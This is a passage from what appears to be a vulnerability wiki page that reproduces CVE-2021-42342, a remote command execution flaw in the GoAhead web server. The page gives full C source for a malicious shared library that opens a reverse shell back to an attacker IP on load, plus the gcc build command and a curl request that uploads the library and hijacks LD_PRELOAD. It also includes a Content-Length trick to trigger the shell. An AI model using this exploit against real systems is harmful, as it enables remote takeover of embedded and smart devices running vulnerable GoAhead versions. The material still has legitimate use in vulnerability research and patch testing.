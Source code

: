 # Goahead LD_PRELOAD Remote Command Execution Vulnerability CVE-2021-42342

## Vulnerability Description

GoAhead is an open source (commercial license), simple, lightweight, powerful, and can run on multiple platforms. It is mostly used in embedded systems and smart devices. 

This vulnerability is bypassed by the CVE-2017-17562 vulnerability patch. Attackers can use the multipart form not considered by the patch to control the target server's environment variables, and then hijack LD_PRELOAD to execute arbitrary code.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">5.x <= GoAhead web-server < 5.1.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="GoAhead"</span>

## Vulnerability reappears

Use the shooting range under Vulnhub to build

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500.png)

Compile malicious so file

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

Send evil.so malicious file

```php
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" https://xxx.xxx.xxx.xxx:8080/cgi-bin/hello
```

After sending a request, grab the packet and set the `Content-Length` to be smaller than the final packet Body size, and blast the `/proc/self/fd/1 rebound shell`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657075996296-e5f8e37e-33db-424b-a040-5e890fad829a.png)